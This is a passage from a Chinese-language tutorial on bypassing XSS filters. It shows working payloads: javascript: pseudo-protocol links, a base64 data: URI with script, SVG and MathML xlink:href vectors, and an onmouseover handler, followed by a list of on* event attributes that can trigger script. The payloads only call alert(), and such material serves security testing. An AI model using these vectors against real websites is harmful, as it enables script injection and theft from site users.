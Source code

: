         当然，也可以闭合属性后，然后再执行脚本。

     2. src/href/action/xlink:href/autofocus/content/data 等属性

        直接使用伪协议绕过。

        ```javascript
        javascript 伪协议： <a href=javascript:alert(2)>test</a>
        data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)
        urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)
        不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
          <math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
        ```

        如果不行，则测试添加事件进行触发。（首先还是需要闭合）

        如：`<a href="test.com" onmouseover=alert(1)>ClickHere</a>`

        ​

     3. on*事件中

        插入合乎逻辑的JS代码即可。也可以使用伪协议。

        常见事件

        ```js
        onload 
        onclick
        onunload 
        onchange 
        onsubmit 
        onreset 
        onselect 
        onblur 
        onfocus 
        onabort 
        onkeydown 
        onkeypress 
        onkeyup 
        ondbclick 
        onmouseover 
        onmousemove 
        onmouseout 
        onmouseup 
        onforminput 
        onformchange 
        ondrag 
        ondrop
        ```

        ​
